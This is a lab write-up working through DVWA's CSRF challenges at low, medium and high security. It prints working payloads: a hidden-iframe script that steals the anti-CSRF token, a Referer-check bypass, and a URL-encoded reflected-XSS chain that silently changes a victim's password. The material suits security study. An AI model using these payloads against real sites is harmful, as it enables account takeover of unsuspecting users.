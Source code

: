 # Cross-site request forgery vulnerabilities in DVWA

Our goal is to exploit the vulnerabilities in the **CSRF** category of `dvwa`. We want to create a website that, if the user visits, will change their password to the current security level without their knowledge or permission.

*Security Level: low*

To first figure out how to perform a CSRF attack, we need to see how the password is actually changed. In our network view, we see the following GET request is made:
```
http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

This matches the PHP code:
```PHP
if( isset( $_GET[ 'Change' ] ) ) {
// Get input
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];
}
```
If all of these fields are set correctly, the password is updated.

This means that our evil website simply needs to send the appropriate get request to the dvwa endpoint, and if the user is authenticated, it should change the password.

My first instinct was to use the `fetch()` function like in tutorial 7. However, when looking at the network view when loading our [evil webpage](low.html), we get a 302 error with a CORS Missing Allow Origin. This essentially means that `dvwa`'s response doesn't have the required `Access-Control-Allow-Origin` header, which is used to determine whether or not the resource can be accessed by content operating within the current region. However, if you access the url above using the `src` attribute, we don't get this error. This is becauses the corss-origin sharing standard does not include [`img` tags](https://stackoverflow.com/questions/47978252/how-img-tag-gets-content-over-cors-headers).

After opening up the payload in our browser, when we try to log back in we can see that the password has changed.

*Security Level: medium*

In this level, the following check has been added:
```PHP
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ])!=-1 )
```
`stripos` returns the position where the name of the server host under which the current script is executing (`$_SERVER[ 'SERVER_NAME' ]`) exists inside the address of the page (if any) which referred the user agent to the current page (`$_SERVER[ 'HTTP_REFERER' ]`). If the `HTTP_REFERER` is not found, the function returns `false`. The issue is that the webpage checks that the result `!= -1`. This means that even if the string is not found, the check returns true since `false != -1` returns `true`.

This means that this difficulty is effectively the same as the previous level, and the exact same payyload can be used.

*Security Level: high*

In this level, the following check is used instead:
```PHP
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```
The `checkToken` function seems to be one that is locally defined somehwere. After trying the same payload for medium, I was redirected to `index.php`, which leads me to believe that this function essentially checks that the `user_token` in the GET request matches the `session_token`, and if they don't you are redirected to `index.php`. We essentially need to get the `session_token`, which seems to be created by `generateSessionToken();` at the bottom of the PHP script. If we check the source code for the webpage, we can see that the `user_token` is actually embedded in the webpage:
```html
<input type="hidden" name="user_token" value="ede42a723132328bf807ab0596238d7a">
```
We therefore need a way to get the the token from the webpage, then include it in our GET request to change the username. As seen in the *low* category, we are unable to make requests to `dvwa` directly. However, we can load the page in an `<iframe>`, which we can then examine for the CSRF token:
```html
<iframe id="csrf_vuln" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" style="visibility: hidden;" onload="payload()">
</iframe>
<script>
function payload() {
  var iframe = document.getElementById('csrf_vuln'); // Gets the iframe from the DOM
  var doc = iframe.contentWindow.document; // Gets the content inside the iframe
  var token = doc.getElementsByName('user_token')[0].value; // Gets all elements with the name "user_token", looks at the first one and takes its value field

  const http = new XMLHttpRequest();
  const url = 'http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=high&password_conf=high&Change=Change&user_token='+token; // Embed token in our request
  http.open('GET', url);
  http.send(); // Send request
}
</script>
```
The HTML code above does exactly this, loading the webpage into a hidden `<iframe>` and ef we xecuting a payload. However, if we try opening this file in our browser ([high_payload.html](high_payload.html)), we notice the following error in our console:
```
Uncaught DOMException: Permission denied to access property "document" on cross-origin object
```
Essentially, since our page has a different origin to `dvwa`, we cannot access the the content inside the iframe (the `doc` variable), meaning that in order for this to work this must be done from dvwa's origin. There are 2 ways (that I could think of) to do this:
- Upload the malicious website to `dvwa` through the **file upload** vulnerability, and redirect users who visit our malicious webpage to it.
- Exploit the **XSS (reflected)** vulnerability by encoding the payload inside the URL, and make our webpage fetch this vulnerable url.

I opted for the second option, since I couldn't be bothered to figure out how to upload an html file on *high* difficulty (and it felt like cheating to lower the difficulty to upload the file). Also, using XSS is more elegant in my opinion since it only requries 1 website. To perform this XSS attack, I needed to rewrite my payload in a format where it would pass the filters on the *high* difficulty:
```html
<iframe id="csrf_vuln" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" style="visibility: hidden;" onload="var iframe = document.getElementById('csrf_vuln'); var doc = iframe.contentWindow.document; var token = doc.getElementsByName('user_token')[0].value; const http = new XMLHttpRequest(); const url = 'http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=high&password_conf=high&Change=Change&user_token='+token; http.open('GET', url); http.send();"></iframe>
```
Like in [tutorial 7](../tutorial_7/notes.md), I needed to add a line break in the url encoding of the payload to stop it from being filtered by the regex. Once this was done, our payload was ready:
```
http://10.6.66.42/dvwa/vulnerabilities/xss_r/?name=%3Ciframe+id%3D%22csrf_vuln%22+src%3D%22http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%22+style%3D%22visibility%3A+hidden%3B%22+onload%3D%22var+iframe+%3D+document.getElementById(%27csrf_vuln%27)%3B%0A+var+doc+%3D+iframe.contentWindow.document%3B+var+token+%3D+doc.getElementsByName(%27user_token%27)%5B0%5D.value%3B+const+http+%3D+new+XMLHttpRequest()%3B+const+url+%3D+%27http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dhigh%26password_conf%3Dhigh%26Change%3DChange%26user_token%3D%27%2Btoken%3B+http.open(%27GET%27%2C+url)%3B+http.send()%3B%22%3E%3C%2Fiframe%3E
```
I first tested this by opening this link in a new tab, which caused my password to be changed. Now, all we need to do is ensure that our malicious webpage accesses this link, so I created a hidden `<iframe>` which performs the GET request to our payload url:
```html
<iframe src="http://10.6.66.42/dvwa/vulnerabilities/xss_r/?name=%3Ciframe+id%3D%22csrf_vuln%22+src%3D%22http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%22+style%3D%22visibility%3A+hidden%3B%22+onload%3D%22var+iframe+%3D+document.getElementById(%27csrf_vuln%27)%3B%0A+var+doc+%3D+iframe.contentWindow.document%3B+var+token+%3D+doc.getElementsByName(%27user_token%27)%5B0%5D.value%3B+const+http+%3D+new+XMLHttpRequest()%3B+const+url+%3D+%27http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dhigh%26password_conf%3Dhigh%26Change%3DChange%26user_token%3D%27%2Btoken%3B+http.open(%27GET%27%2C+url)%3B+http.send()%3B%22%3E%3C%2Fiframe%3E", style="visibility: hidden;">
</iframe>
```
Another option is to redirect our user to the payload url using a `<meta>` tag in the header, but this means that the user can see that they've been redirected, which might be a little *sus*. If we now open our [evil webpage](high.html), all the relevent network requests are made, with our XXS attack triggering a CSRF attack which sets the user's password to 'high'! 
